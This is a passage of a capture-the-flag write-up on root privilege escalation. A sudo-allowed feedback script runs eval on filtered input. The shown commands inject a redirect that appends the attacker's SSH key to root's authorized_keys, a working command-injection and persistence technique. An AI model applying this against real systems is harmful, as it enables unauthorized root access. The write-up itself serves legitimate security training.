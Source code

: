 > **Privilege Escalation with Initial Logic**
> 

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 

Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

deku@myheroacademia:~$ cat /var/log/feedback.txt
deku@myheroacademia:~$ 
```

`cat /root/.ssh/id_ed25519.pub`

```bash
ssh-ed25519 [REDACTED] - SECRET root@kali
```

```bash
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:

'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /root/.ssh/authorized_keys

It is This:
Feedback successfully saved.

deku@myheroacademia:~$
```
